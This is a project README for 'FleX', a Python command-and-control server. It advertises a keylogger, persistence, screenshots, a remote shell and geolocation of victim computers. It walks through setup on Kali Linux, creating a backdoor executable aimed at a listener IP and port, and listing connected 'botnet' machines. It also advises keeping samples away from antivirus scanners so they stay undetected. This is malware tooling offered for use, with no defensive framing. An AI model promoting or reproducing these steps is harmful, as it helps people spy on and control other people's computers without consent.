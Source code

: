 # Lv711

FleX. A Simple C&C Server Written In Python.

__Warning:__  Do not submit any of the samples generated by this software to online scanners such as, Virustotal and NoDistribute. Doing so will render the software useless.
 
# Features
  - Upload & Download
  - Auto-persistence
  - Screenshot
  - Keylogger
  - Shell
  
You can also:
  - Get system information of a remote computer
  - Get the geolocation of a remote computer
  - Launch chrome on a remote computer
  - Shutdown a remote computer

### Requirements

* [Mss](https://pypi.python.org/pypi/mss/) - Used for screenshots
* [Cmd2](https://pypi.python.org/pypi/cmd2) - Interactive command line
* [Wine](https://www.winehq.org/) - Used for generating  executables
* [Requests](http://docs.python-requests.org/en/master/) - Used for Accessing the internet

### Installation

FleX requires [Python](https://www.python.org/downloads/release/python-2714/) v2.7 and [Kali Linux](https://www.kali.org/downloads/) to run.

Install the requirements 
```sh
$ cd setup
$ python install.py
```

Start the program
```sh
$ cd ..
$ python flex.py
```

View all of commands
```sh
$ help
```

Get detail about a command
```sh
$ help getinfo
```

Configure the server
```sh
$ setip 127.0.0.1
$ setport 4444
```

View the server status
```sh
$ server_info
```

Start the server
```sh
$ server_start
```

Create a backdoor
```sh
$ create 127.0.0.1 4444  Lv711
```

Display connected computers and their corresponding ID's
```sh
$ botnet
```
